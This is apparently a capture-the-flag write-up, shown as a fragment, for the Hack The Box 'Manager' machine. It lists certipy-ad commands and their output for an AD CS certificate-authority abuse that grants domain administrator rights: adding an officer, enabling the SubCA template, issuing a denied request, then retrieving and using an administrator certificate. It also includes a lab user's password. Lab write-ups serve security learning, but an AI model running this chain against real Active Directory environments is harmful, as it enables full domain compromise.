 First of all, I had to put the commands faster, because the settings were reset after a couple of minutes.

1 Add the new officer
```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
2 Enable the subCA template
```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template 'SubCA' -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
3 Request the certificate (this step fails even if I do it right)
```
certipy-ad req -ca 'manager-DC01-CA' -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -target 'manager.htb' -template SubCA -upn 'administrator@manager.htb' -dc-ip 10.10.11.236

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 53
Would you like to save the private key? (y/N) y
[*] Saved private key to 53.key
[-] Failed to request certificate
```
4 Do the issue request
```
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 53 -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
5 Retrieve the certificate and get the administrator pfx
```
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'manager.htb' -retrieve 53 -dc-ip 10.10.11.236

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 53
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '53.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
6 Get the hash from the administrator
```
faketime -f +7h certipy-ad auth -pfx administrator.pfx -domain manager.htb -username administrator -dc-ip 10.10.11.236

Certipy v4.7.0 - by Oliver Lyak (ly4k)
```